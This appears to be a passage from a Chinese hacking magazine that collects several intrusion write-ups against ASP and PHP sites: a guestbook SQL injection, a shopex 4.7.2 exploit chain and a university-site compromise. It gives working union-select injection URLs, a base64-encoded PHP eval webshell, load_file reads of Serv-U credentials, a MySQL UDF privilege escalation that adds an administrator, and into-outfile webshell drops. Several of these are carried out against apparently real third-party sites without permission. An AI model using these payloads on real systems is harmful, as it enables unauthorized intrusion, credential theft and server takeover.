

至于怎么进后台嘛，用 cookie 注入就可以了。默认登录界面 admin/admin_login.asp，我想既然数据库没有防下载，新闻内容也没什么过滤，当然也可以发布新闻插入一句话，连接数据库获得 WebShell 了。这个希望大家自己尝试一下，我小菜就不多说了。

### 四、官方测试

去官方网站看了看，和免费发布的版本其实是有差别的。免费版没有留言板，官方的数据库连接文件也加了容错语句，没有暴库，不过 cookie 注入还是存在的。管理员默认密码改了，我用工具跑的时候愣是跑不出来，只能跑出账号，可能做了点限制吧。



最后用手工 cookie 注入得到了管理员的 md5 散列（免费发出来的就没有加密！），如图6。

在线没破解出来，我也懒得去跑，所以就没有进后台拿下官方的 WebShell。

### 五、总结

其实很多常规的漏洞像我这样的小菜也都是可以去挖掘一下的，当然可能还有别的漏洞，我只是在这里提供给像我一样的小菜一种分析漏洞的方法，欢迎大家继续挖掘。最后，欢迎大家去“黑手”论坛找我讨论问题，我的 ID：qdhacker。

> 编辑点评：
>
> 比较简单的一篇文章，常规漏洞的分析和利用，没有掌握的仔细看看，这些东西都应该掌握。只是小编对这种免费版和收费版搞两套代码还是有些不解，犯得着为免费版写一套安全性极差的版本么？

## 分析快捷留言薄 V10.09

图 苦叶求子

- 从本文可以学到：
- 快捷留言薄漏洞分析和利用

快捷留言薄 V10.09 是一款功能还算齐全的程序，美观方面也可以，在“源码之家”的下载次数也很高。于是我便想看看，它的安全是不是也做得这么到位呢？我下载的是 V10.09 正式版，研究了一下代码，跨站方面做得挺好，该过滤的都过滤了，而且很 BT。跨站是没有什么问题了，那就看注入吧，在 index.asp 文件中有以下代码：

```asp
snr=Request("snr")
stype=Request("stype")
IF Request("del")<>"" and Session("PRO")&LogPWD&"ADMIN"<>True Then
 Sql = "Delete From gb Where id="&Request("del")
 Conn.Execute(Sql)
End IF
```

大家都看到了吧，变量没有经过任何过滤就带进数据库查询了，不过这个变量是在搜索框里的，所以我们的注入语句也要在搜索框里进行提交。方法在网上到处都是，我算是再给不懂的朋友补习一下吧，高手略过。

在本地搭建好环境后，访问 http://127.0.0.1/book1009/search.asp，我在搜索框里输入注入代码的时候发现有限制，晕死！在 search.asp 文件里面找到这样一句代码：

```html
<input type="text" name="snr" size="22" maxlength="50" style="width: 165; height: 20">
```

大家看到 maxlength="50" 了吗？就是它限制了只能输入 50 个字符。其实这个好办，我们打开 http://127.0.0.1/book1009/search.asp，然后保存下来，再用记事本打开，查找 maxlength，把 = 后面的 50 改成 50000 就可以了。

等一下，还没有完，找到 `<FORM action=index.asp method=post>` 这段代码，注意，这里是相对路径，我们必须要把它改成绝对路径才可以。把 action= 后面的代码改成 http://127.0.0.1/book1009/index.asp 就 OK 了。

好！我们打开这个页面，现在可以随心所欲地输入代码了。我简单说一下注入的方法：在搜索框里输入“关键字%' and 1=1 and '%'='”（不包括双引号），注意，关键字必须是能够搜索到的，这里我搜索的关键字为首页，比如：首页%' and 1=1 and '%'='，如图1。



然后点击“搜索”，返回正常，如图2。

然后再把 and 1=1 换成 and 1=2，点击“搜索”，返回空白，也就是错误，如图3。





我来解释一下为什么会出现这样的情况：

我们输入的代码“首页%' and 1=1 and '%'='”到了数据库以后，查询语句就变成了 select 字段 from [表名] where 条件 like '%首页%' and 1=1 and '%'='%'，最后结果为真，所以会搜出关于首页的资料；当我们把 and 1=1 换成 2 的时候，结果为假，自然就会出现空白了。

好了，接着猜解表名，输入首页%' and exists (select * from gbinfo) and '%'='，然后点击“搜索”，我就不截图了；然后再猜解列名，输入首页%' and exists (select Logname from gbinfo) and '%'='，点击“搜索”，返回正常。接下来就是猜内容了，我还是去它老窝测试吧。



打开 http://www.c6369.net/book/search.asp 这个地址，然后按前面所说，先保存当前页面到本地……我直接猜内容吧，输入首页%' and (select top 1 len(logname) from gbinfo)>5 and '%'='，返回正常，把 >5 改成 6 后返回空白，证明账号是 6 位的。最后用猜出的账号密码进入后台，数据库是 ASP 的，我们在留言里写个一句话进去就 OK 了，然后连接就得到了 shell，如图4。

LCX西线无战事首语：

如果你很烦闷的时候，有什么样的发泄方式呢？我喜欢出去走走，抽着烟，走上几个小时，这也是一种乐趣。如果你学网络对一种技术很烦的时候，我推荐你学另一种，这也可以刺激你新的求知欲。如果你其它栏目看过了，可以看看“西线无战事”，呵呵。

## 友情检测夫妻身份证

图 Rabbitsafe

**从本文你可以学到！**
如何使用 shopex4.7.2 exp 和利用 udf.dll 提权

大家好，今天给大家带来的文章是友情检测某某数码，不多说了，我们直接进入今天的渗透之旅吧！

### 一、拿 WebShell

动力数码网站的网址是 http://www.xxxx.com/，我们打开网站，拉到网站尾部，可以看到网站使用的是 shopex4.7.2 系统，如图1。

最近，shopex4.7.2 爆出了一个非常严重的漏洞，由于网站 `syssite/shopadmin/order_service.php` 后台文件没有设置访问权限，而且还存在注入漏洞，我们可以猜解出管理员账户和口令，然后利用 `htmlcache.php` 文件来生成 WebShell，具体漏洞分析可以参照“黑手”本期的新闻文章《shopex 网上商城漏洞分析与利用》。



```
这里写txt文件的url
http://www.baidu.com<?php eval($_POST[cmd]);?>
这里写文件名
12.php
这里是默认的，不要改
1e236443e5a30b09910e0d48c994be6c

这个是url的base64编码
这个是filename的base64编码
这个是signcode
组合起来就是
```

```text
注入
syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d0b535f1002a8&&v_id=1+and+1=2+union+select+concat(username,0x20,userpass),2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7

后台
syssite/shopadmin/admin_seo_act.php?act=savecachetime&seocachetime=60

查数据库
syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d0b535f1002a8&&v_id=1+and+1=2+union+select+database(),2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7

列表
syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d0b535f1002a8&&v_id=1+and+1=2+union+select+TABLE_NAME,2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7

Hacked by 无名
```

我们现在打开无名兄弟写的漏洞利用工具，点击“转换”可以获取 url 和 filename 的 base64 编码，还有 signcode 的值，如图2。

我们先提交如下注入语句，效果如图3。

```text
http://www.xxxx.com/syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d0b535f1002a8&&v_id=1+and+1=2+union+select+concat(username,0x20,userpass),2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4+from+sysdb_mail_offer_operate%23
```

语句中 `concat(username,0x20,userpass)` 是让管理员账户和口令在同一个点显示出来。由于这个注入点只能显示在 1 这个位置上，所以使用这个办法。图3中猜解出了所有超级管理员和普通管理员的值，随便破解出这里面的一个管理员口令就可以了。把 admin 的 MD5 直接到网站上去破解，成功破解出来了，如图4，接着我们当然是要去登录网站后台了，如图5。

我们的目的是登录后台，然后提交 `http://www.xxxx.com/syssite/shopadmin/admin_seo_act.php?act=savecachetime&seocachetime=60`，把 seocachetime 的值改为 60，不等于 0 就行了，这是为拿 WebShell 作准备。

由于 `admin_seo_act.php` 文件在后台，所以首先要猜解出管理员口令登录后台才行。接下来是拿 WebShell 了，这还要靠网站根目录的 `htmlcache.php` 文件，我们已经把 seocachetime 的值改为 60，提交如下 URL 就可以直接写入 `12.php` 文件到网站根目录下：



```text
http://www.xxxx.com/htmlcache.php?url=aHR0cDovL3d3dy5iYWlkdS5jb20vPD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4=&filename=MTIucGhw&signcode=f635b7132c12e19ea1accb5fcff52543
```


总的来说，这套程序的安全性还是不错的，如果大家看完文章有什么问题，可以到“黑手”论坛和我讨论，我的 ID：昔日赤子，最后感谢一下 Neeao 大哥对我技术上的辅导！

> **编辑点评：**
> 本文也是较为简单的漏洞分析和利用，主要侧重点为“搜索注射渗透”，也是非常常见和必须掌握的技术手法，不是很理解的朋友需要恶补一下了。


如图6，虽然提示 failed，但是，12.php 文件已经写入到网站根目录下了，如图7。接着上传大马 PHP 马上去，然后就可以开始提权了。

### 二、拿服务器

我们直接点击大马的 WebShell，看能不能执行命令，没想到可以直接加管理员，运气太好了！提交 whoami，返回 nt authority\system，猜到网站 Apache 是以系统服务启动的。我们直接加了个管理员账户，如图8。

如果你没有我这么好的运气，还可以试试其它的提权方法。有些站连接数据库用的是 ROOT，那样也可以轻松提权，我们可以找到连接数据库的文件 /include/mall_config.php。由于网站文件都是 zend 加密的，所以，我们可以先把文件下载回本地，然后使用“黑刀 Dezender3.0”工具进行解密，成功破解出连接数据库口令，如图9。

下面，简单介绍下 mysql 提权：

- 1. 上传 mysql 专用提权马 su.php 到服务器上；
- 2. 连接上数据库后，点击导出 udf.dll 到 c:\windows\udf.dll；
- 3. 执行 SQL 语句：create function cmdshell returns string soname 'udf.dll'；
- 4. 我们可以用 cmdshell 函数执行系统命令了，来添加一个管理员账号，执行 select cmdshell('net user test1 test1 /add')，提示添加成功，如图10。

接下来就是登录服务器了，服务器开了 3389 端口，我们利用刚添加的 test 管理员登录服务器，如图11。

### 三、总结

友情检测动力数码结束了，最后，成功拿到了服务器权限。如果阅读文章有什么不明白的，可以到《黑客手册》论坛找我，我的论坛 ID 是 rabbitsafe。

> 【文章中所涉及的工具 shopex4.7.2 利用程序、html、su.php、udf.dll 和黑刀 Dezender 本地版 3.0.rar 已经收录在本期光盘】

**编辑点评：** rabbitsafe 的文章写得一向都很清楚，不需要多说什么。不过我发现 rabbitsafe 的独到发现较少，希望他继续努力，争取成为黑客界的大牛。


## 对某某大学红旗在线的一次友情检测

图上帝之爱【安天365团队】

**本文写的是常规的 PHP 注入**

最近越来越感觉自己的技术退步了，所以准备在实战中提高自己的技术和经验，而且只是检测，并不做任何破坏，希望玩技术的朋友任何时候记住一点：先学做人，再学技术！本次入侵过程冲费了很大的周折，关键是当时陷入了一种自己给自己挖的陷阱之中，当然这也使我在这次过程中提高了技术和经验。


图1


图2


图3

### 一、安全初步检测

- 1. 获取网站物理路径
- 2. 获取网站 OS 版本
- 3. 手工判断是否存在 SQL 注入点
- 4. 获取 Mysql 数据库版本

我们先来看一下这个网站 http://www.xxxx.edu.cn/index.html，打开页面后，是用 PHP 编写的，随意打开一个链接，页面直接把物理路径给暴露了出来，路径地址 D:\ecms4\community\XXXX.php（为防止无聊人士带来破坏，全部 XXXX），如图1所示。

有了这个路径就好办多了，如果他有可读权限（其实并不是只有 root 权限才有读取权限的），那么我们就将读到很多有用的东西！先来判断下服务器的系统，在 URL 用“PHP”代替“php”，看清了啊，一个是大写的，一个是小写的！这是由于 Windows 对大小写不敏感，而 Linux 却相反的原因，结果发现返回信息是一样的，也就是说这是 Windows 系统的！（编辑：我晕，进一步不是就是 Windows 下的物理目录了吗？）

这时我们先来看下这个页面，在后面加一个单引号，出错了，接下来是用 and 1=1 和 and 1=2 测试（这个不用多说吧，大街上的小孩子都会！）大家可以看到，两者稍微有点变化，所以我们判定存在注射漏洞。

```
and ord(mid(version(),1,1))>51/*
```

大家知道 Mysql 低于 4.0 版本就不支持 union 子语句查询，所以我们要看看其版本是否为 4.0 以上。继续添加提交，返回正常，说明是 4.0 以上版本。现在完成了以上任务，接下来就是判断长度了。order by X，多么经典的东西啊，历久不衰啊！我汗，长度是 1，继续射之。and 1=2 union select user()/*，查看后不是 root 权限，继续 and 1=2 union select user()/*，版本是 4.1.12-nt 的，如图3所示。

### 二、提权之路

#### 1. 测试 FTP 服务器是否为 Serv-U

现在我们知道是 Windows 系统，Mysql 版本为 4.1.12，虽然他不是 root 权限，但是我们可以看看是否有读取的权限。提交 and (select count(*) from mysql.user)>0 /*，返回正常，有读取权限！由于是 Windows 系统，所以有很大可能用的是 Serv-U！ftp 登录一下看看，果然是 Serv-U，如图4所示，那么这样的话，我们就可以直接读取 FTP 账号和密码进行破解，然后直接登录上传一个 shell！


#### 2. 读取 Serv-U 的用户信息

Serv-U 的默认安装路径一般有下面两个：

- `C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`
- `C:\Program Files\Serv-U\ServUDaemon.ini`

接着我们来读取伪 SU 的用户信息，如果有时候有权限却读取不到，那么可能是管理员改了默认的名称或者路径，你不妨尝试一下 D、E、F 之类的盘符！我们提交：`http://www.xxxx.edu.cn/456/123.php?dp_id=X%20and%201=2%20union%20select%20load_file(0x433A5C50726F6772616D2046696C65735C536572762D555C53657276554461656D6F6E2E696E69)`，哈哈，8 个用户，如图5所示。


那么我们看看去……哦，字段位置不够回显，读到的文件不完整。这时候我用 Substring() 函数解决问题，无论如何就是不显示中间的那部分重要信息，只显示文件最后的那些几个没有多大作用的用户信息！因为什么呢？那几个账号都不是这个网站目录的，是其它的，没有用，上传上去自然得不到 shell！

### 3. 获取 Mysql 数据库当前用户的密码

这时候该怎么办呢？按照老办法，读取 mysql 密码！虽然不是 root，但是权限足够大的话也是可以导出一句话的。前面爆出了路径，那么我们转换进行读取，得到 mysql pass！我们得知，数据库文件位于：`d:\ecms4\123\456\db.inc.php`，继续转换提交后得到密码，相关信息如下：

```php
$dbserver='localhost';
$username='1234';
$password='123456';
$dbname='123';
```

### 4. 获取 PhpMyAdmin

那么接下来就是找 phpMyAdmin 了，很幸运，直接加个 phpmyadmin，页面就出来了（Windows 就是比 Linux 好，不区分大小写，在 Linux 的服务器上找 phpmyadmin 简直是一种折磨，不断改大小写！）。输入密码之后，我期盼着那一幕的再现，但等来的却是沉重的打击，直接跳转到了另一个 IP 上，而且无法显示网页，如图6所示，这很是让我郁闷啊。


而且使用牛族 mysql 连接器也不行，连接失败！我试 into outfile 吧，结果是导不出来，也绕不过去！读取 FTP 不行、phpmyadmin 不行、into outfile 这条路也行不通，难道真的让我进后台去搞？

#### 5. 猜解管理员密码

无奈之下，不得不为之，猜解管理员密码吧！`and 1=2 union select password from admin/*, and 1=2 union select password from admin/*`，这里不做太多赘述的说明，密码出来了，也把账号导出来了，去 MD5 解密成功解出。

但是我进去了后台登录，提示回到首页登录，去首页登录上去后却发现后台很简陋，还好有上传相片的功能。但是很郁闷，一上传立马退出，我换 jpg 图片也不行！汗，这里不截图了，看来后台是行不通的（后来发现那个是假的后台，而真正的后台却是“帝国”系统，郁闷的是猜解出来的账号和密码竟然进不去）。

我在翻自己的工具之时，发现了自己盘里放了一个 MYSQL 的文件夹，噢！？好久没用都忘记了！用它试试。打开 CMD，跳转到 mysql 下的 bin 目录，然后执行命令“mysql -h 主机地址 -u 用户名 -p 用户密码”进行连接，哈哈，终于进去了。执行 `show databases;`，显示数据库列表，出来了，如图7所示，那么这样就好办多了，同 phpmyadmin 拿 shell 一样，建表，插入一句话，导出，over！

但是失望的事情又来了，总是提示建表错误，无语！但是我建立一个库却是可以的，就是不能建表插入。既然能建库就说明权限很大，但为什么不能建表我就很郁闷了（此时我已经犯了一个极大的错误）！

这时候看见了师父，于是问问他，一下子指出了我的问题所在。他说，既然你能建库，那说明权限还是可以的，你可以试试 into outfile。当时我以为他说的是我上面的那样，其实不是的。既然我连接上了 MYSQL，那么现在根本就不用管 GBC 了，只要我有权限一样可以拿到 shell 的，语句为：`select '一句话木马' into outfile '网站路径';`。这里说一下，特别要注意斜杠要双写。


shell 了，如图8。

回到一句话马的地址栏看着，一片空白，赶紧连接上传一个大马，如图9。既然服务器上面有 SU，phpshell 上面自带一个 SUEXP，那么直接利用它提权搞定！原来是这么地简单，看来自己还是要学习一番啊！用远程连接一下，发现开启了 3389 端口，呵呵，省麻烦顶了！

#### 6. 进入服务器

输入密码后，竟然没有权限？原来是我一激动竟然忘记加入管理员组了，汗！加入管理员组进去后真的很搞笑，出来一个提示：你上次退出是什么原因？我随便选择了一个就进去了，桌面上什么都没有，这是怎么回事？

问问兄弟银色上帝，他说可能是卡住了，重启下。这时，老婆又来让我弄东西了，郁闷，临走让兄弟搞了。过了一个小时回来后我一登录，哈哈，进去了！这时候找到了原因，磁盘空间不足，卡住了，释放下就好了，如图10！


### 三、总结与体会

